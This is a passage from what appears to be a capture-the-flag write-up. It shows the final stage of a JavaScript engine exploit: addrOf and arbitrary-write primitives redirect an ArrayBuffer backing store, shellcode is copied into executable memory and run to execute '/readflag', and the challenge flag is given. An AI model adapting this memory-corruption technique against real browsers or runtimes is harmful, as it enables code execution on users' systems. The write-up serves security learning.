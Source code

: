 ```javascript
    0x0067616c6664n,
];

function copy(addr, data_arr) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrOf(buf);
    let backing_store_addr = buf_addr - 1n + 0x24n;
    arb_write(backing_store_addr, addr);

    for (let i = 0; i < data_arr.length; i++) {
        dataview.setBigUint64(8*i, data_arr[i], true);
    }
}

copy(rwx, shellcode);

console.log("[+] executing execve('/readflag', 0, 0)");
f();
```
{% endcode %}

{% hint style="success" %}
Flag: _**NCW{603f1e4f172d5a4305e649aea9425636}**_
{% endhint %}
